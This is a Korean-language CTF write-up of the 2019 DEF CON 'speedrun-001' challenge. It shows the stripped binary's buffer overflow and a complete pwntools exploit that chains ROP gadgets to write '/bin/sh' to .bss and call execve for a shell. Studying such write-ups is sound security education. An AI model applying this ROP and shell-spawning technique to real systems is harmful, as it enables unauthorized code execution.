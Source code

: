 ```yaml
---
title: "2019 Defcon CTF speedrun-001"
date: 2020-1-4
ctf: Defcon CTF
layout: post
---
```


statically linked이고 stripped 돼있다.

```
speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped
```

여기가 main인거같다. 그냥 bof터진다. RELRO는 Partial이고 NX걸려있다.

```c
__int64 sub_400B60()
{
  char buf; // [rsp+0h] [rbp-400h]

  sub_410390("Any last words?");
  sub_4498A0(0, &buf, 0x7D0uLL);
  return sub_40F710("This will be the last thing that you say: %s\n");
}
```

stripped 되어있어서 syscall 가져와서 익스해주면 된다. syscall gadget은 그냥 널려있는데 read syscall을 이용했다.

bss영역에 `/bin/sh\x00` 을 넣어주고 `execve` 로 쉘따면된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./speedrun-001')
p = process('./speedrun-001')
prax = 0x0000000000415664 # pop rax ; ret
prdi = 0x0000000000400686 # pop rdi ; ret
prsi = 0x00000000004101f3 # pop rsi ; ret
prdx = 0x00000000004498b5 # pop rdx ; ret
main = 0x0000000000400B60
syscall = 0x00000000004498AC

payload = '\x90'*1024
payload += 'realsung'
payload += p64(prax) + p64(0)
payload += p64(prdi) + p64(0)
payload += p64(prsi) + p64(e.bss())
payload += p64(prdx) + p64(10)
payload += p64(syscall)
payload += p64(main)

p.sendlineafter('Any last words?',payload)
p.sendline('/bin/sh\x00')

payload2 = '\x90'*1024
payload2 += 'realsung'
payload2 += p64(prax) + p64(59)
payload2 += p64(prdi) + p64(e.bss())
payload2 += p64(prsi) + p64(0)
payload2 += p64(prdx) + p64(0)
payload2 += p64(syscall)

p.sendlineafter('Any last words?',payload2)

p.interactive()
```

